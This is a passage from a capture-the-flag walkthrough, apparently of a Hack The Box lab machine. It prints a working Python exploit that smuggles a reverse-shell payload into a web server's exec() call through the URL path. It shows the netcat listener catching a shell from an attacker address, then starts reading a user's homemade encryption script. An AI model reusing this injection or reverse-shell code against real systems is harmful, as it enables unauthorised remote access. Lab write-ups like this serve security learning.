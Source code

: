 
So since exec() executes python code, instead of requesting some normal url-endpoint we put our python code there to spawn a reverse shell. After messing around with the formating a bit I came up with the following exploit script, which is just your typical python reverse shell (from pentestmonkey.net), connecting to my ip at port 9999, with some extra formating which we had to do because our code was still insdie the info.format():


```py
import requests
import urllib

url = 'http://10.10.10.168:8080/'

path = '5\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.77",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\na=\''

path_encoded = urllib.parse.quote(path)

print("sending request to: " + url + path_encoded)
r = requests.get(url+path_encoded)
```

Which when I execute it after starting netcat, gave me a shell on the box.

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.10.168] 47698
www-data@obscure:/$
```

# 0x2 Getting the user.txt

As www-data we can go to the directory of 'robert' and have the permission to read most his files,  
including the "BetterSSH.py" and "SuperSecureCrpyt.py". For the user it seems that the "SuperSecureCrypt"  
is the relevant part since we also found an encrpyted "passwordreminder" file in the robert directory.
Lets have a look at "SuperSecureCrypt.py":

```py
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
```